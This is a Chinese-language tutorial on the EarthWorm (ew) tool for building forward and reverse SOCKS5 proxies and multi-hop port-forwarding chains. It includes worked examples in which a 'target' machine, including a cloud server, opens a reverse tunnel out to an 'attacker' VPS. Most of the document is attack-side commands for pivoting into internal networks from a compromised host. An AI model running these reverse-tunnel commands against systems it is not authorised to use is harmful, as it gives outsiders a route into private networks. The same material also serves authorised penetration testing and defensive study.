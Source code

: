 1.可穿透复杂的内网环境。（这么说吧：我本地连着路由器开一个虚拟机，可以直接反弹到公网的云服务器上。）
2.以支持多平台间的转接通讯，Linux、Windows、MacOS、Arm-Linux均支持。

支持平台列表：（可跨平台反弹）

ew_for_Win.exe        适用各种Windows系统(X86指令集、X64指令集)        Windows7、Windows XP
ew_for_Linux32        各常见Linux发行版 (X86 指令集 CPU)        Ubuntu(X86)/BT5(X86)
ew_for_linux64        各常见Linux发行版 (X64 指令集 CPU)        Ubuntu(X64)/Kali(X64)
ew_for_MacOSX64        MacOS系统发行版 (X64 指令集)        苹果PC电脑，苹果server
ew_for_Arm32        常见Arm-Linux系统        HTC New One(Arm-Android)/小米路由器(R1D)
ew_mipsel        常见Mips-Linux系统 (Mipsel指令集 CPU)        萤石硬盘录像机、小米mini路由器(R1CM)
 

0x01 使用方法

以下所有样例，如无特殊说明代理端口均为1080，服务均为SOCKSv5代理服务.
该工具共有 6 种命令格式（ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran）。
1.正向SOCKS v5服务器

$ ./ew -s ssocksd -l 1080
2. 反弹 SOCKS v5 服务器
  这个操作具体分两步：
  a) 先在一台具有公网 ip 的主机A上运行以下命令：

$ ./ew -s rcsocks -l 1080 -e 8888 
b) 在目标主机B上启动 SOCKS v5 服务 并反弹到公网主机的 8888端口

$ ./ew -s rssocks -d 1.1.1.1 -e 8888 
成功。
3. 多级级联
工具中自带的三条端口转发指令，它们的参数格式分别为：

$ ./ew -s lcx_listen -l  1080   -e 8888
$ ./ew -s lcx_tran   -l  1080   -f 2.2.2.3 -g 9999
$ ./ew -s lcx_slave  -d 1.1.1.1 -e 8888    -f 2.2.2.3  -g  9999
通过这些端口转发指令可以将处于网络深层的基于TCP的服务转发至根前,比如 SOCKS v5。
首先提供两个“二级级联”本地SOCKS测试样例：
  a) lcx_tran 的用法

$ ./ew -s ssocksd  -l 9999
 
$ ./ew -s lcx_tran -l 1080 -f 127.0.0.1 -g 9999
b) lcx_listen、lcx_slave 的用法

$ ./ew -s lcx_listen -l 1080 -e 8888
 
$ ./ew -s ssocksd    -l 9999
 
$ ./ew -s lcx_slave  -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
 

再提供一个“三级级联”的本地SOCKS测试用例以供参考

$ ./ew -s rcsocks -l 1080 -e 8888
 
$ ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
 
$ ./ew -s lcx_listen -l 9999 -e 7777
 
$ ./ew -s rssocks -d 127.0.0.1 -e 7777
数据流向: SOCKS v5 -> 1080 -> 8888 -> 9999 -> 7777 -> rssocks

 

0x02 实战测试（分为本地测试和公网IP测试）

一般最常用的就是上面的第二条：反弹 SOCKS v5 服务器。
使用实例1：
目标机器：

ew.exe -s rssocks -d 2.2.2.2 -e 888
（2.2.2.2为想要反弹到的机器）
攻击机器：

ew.exe -s rcsocks -l 1008 -e 888
（监听888端口，转发到1008端口）
测试环境：
在这里我直接用我的本机Win10作为目标机器，将虚拟机Win7作为攻击机器。

 

本机Win10 ip：192.168.62.1
Win7 ip：192.168.62.128



 

ew_for_Win.exe -s rcsocks -l 1008 -e 888
接收888端口的数据并转发到1008端口。



此时正在监听。

目标机器Win10运行命令：

ew_for_Win.exe -s rssocks -d 192.168.62.128 -e 888


此时攻击机器会弹出连接成功的提示：
 

好了，到此Win10的SOCKS5代理就反弹到Win7攻击机上了。
只需要一个Socks5连接工具就可以连接到本地1008端口来代理访问了。
推荐工具SocksCap64。

 



 

在代理处配置127.0.0.1:1008
代理已连接。
使用实例2：
攻击者洛杉矶 Linux VPS ：45.78.*.*
目标阿里云服务器 Win2008：47.93.*.*

攻击者Linux监听：

[root@centos6 ~]# ./ew_for_Linux32 -s rcsocks -l 1008 -e 888


目标阿里云服务器反弹：

ew_for_Win.exe -s rssocks -d 45.78.*.* -e 888


攻击机器监听出现：rssocks cmd_socket OK!
表示反弹成功。
